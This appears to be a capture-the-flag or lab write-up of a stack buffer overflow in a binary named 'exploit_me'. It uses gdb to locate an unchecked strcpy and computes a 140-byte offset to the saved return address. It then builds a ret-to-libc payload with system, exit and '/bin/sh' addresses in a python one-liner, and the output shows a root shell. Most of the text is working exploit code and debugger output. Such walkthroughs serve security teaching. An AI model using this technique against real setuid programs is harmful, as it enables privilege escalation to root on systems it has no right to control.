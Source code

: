 <pre><code>0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)</code></pre>
> The comparison tells us that the program expects only 1 argument.
```
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
> **strcpy** copies and stores our first argument in the stack without checking if the size of the argument matches the size of the destination buffer.

The function can be used by <code>buffer_overflow</code> to corrupt the saved values of **%ebp** and **%eip**.
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /home/zaz/exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048425 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff720:
 eip = 0x8048425 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff718, args:
 Locals at 0xbffff718, Previous frame's sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
(gdb) x/30x $esp
0xbffff680:     0xbffff690      0xbffff8f4      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x00004141      0xbffff71c      0xb7fd0ff4
0xbffff6d0:     0x08048440      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00080000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6
```
Hex value:
bffff71c - bffff690 = 8C
>bffff71c : eip saved | bffff690 : buffer beggining

Decimal value:
3221223196 - 3221223056 = 140
>Offset : 140 characters

From 141 to 144 characters are written on the saved address of **%eip**.

To exploit it we will make a <code>ret_to_libc</code> : the goal is to recover the address of the **system** and **exit** function.
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
```
> We have here the addresses of **system**, **exit** and the environment variable **/bin/sh**.

```
./exploit_me `python -c "print '\x90'*140 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7'"`
```
> We rewrite the address of **system** to the saved address of **%eip**, then the address of **exit** to make the program exit normally at the shell exit and finally the address of **/bin/sh** to launch a terminal.

We get a terminal with **root** rights :
```
> id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```